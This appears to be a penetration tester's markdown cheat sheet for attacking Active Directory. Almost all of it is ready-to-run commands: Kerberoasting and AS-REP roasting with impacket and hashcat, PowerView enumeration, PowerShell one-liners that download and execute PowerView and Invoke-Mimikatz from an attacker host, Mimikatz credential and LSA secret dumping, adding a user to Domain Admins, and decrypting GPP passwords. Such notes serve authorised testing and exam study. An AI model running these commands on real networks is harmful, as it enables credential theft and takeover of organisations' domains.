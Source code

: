 # Methodology

## Enumeration

### Kali Commands

```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

# Convert net user output to user list
tr -s ' ' '\n' < users.txt | sed '/^$/d'
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

**Note:** This can miss custome attributes compared to running PowerView locally

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof -TableView
Get-NetUser $USER
Get-NetGroup -Where 'member contains $USER' -Select cn

# Enumerate group objects
Get-NetGroup -Properties cn,member -TableView
Get-NetGroup $GROUP

# Enumerate Computer objects
Get-NetComputer -Properties dnshostname,operatingsystem,operatingsystemversion -TableView

# Check for logged-in users (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN -Properties samaccountname,serviceprincipalname -TableView

# Retrieve the ACL for the specified object (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Get-ObjectAcl -Identity $OBJECT -Select SecurityIdentifier,ActiveDirectoryRights -TableView
Get-ObjectAcl -Identity $OBJECT -Where 'ActiveDirectoryRights eq GenericAll' -Select SecurityIdentifier,ActiveDirectoryRights -TableView

# Enumerate domain shares (DOES NOT EXIST CURRENTLY, RUN LOCALLY)
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn,member
Get-NetGroup $GROUP | select cn,member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Check for logged-in users
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACLs for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
ConvertFrom-SID $SID
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"$SID","$SID" | ConvertFrom-SID

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check password policy
net accounts

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# Invoke mimikatz
.\mimikatz.exe
iex(new-object net.webclient).downloadstring("http://$OUR_IP/Invoke-Mimikatz.ps1")

privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
token::revert
exit
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

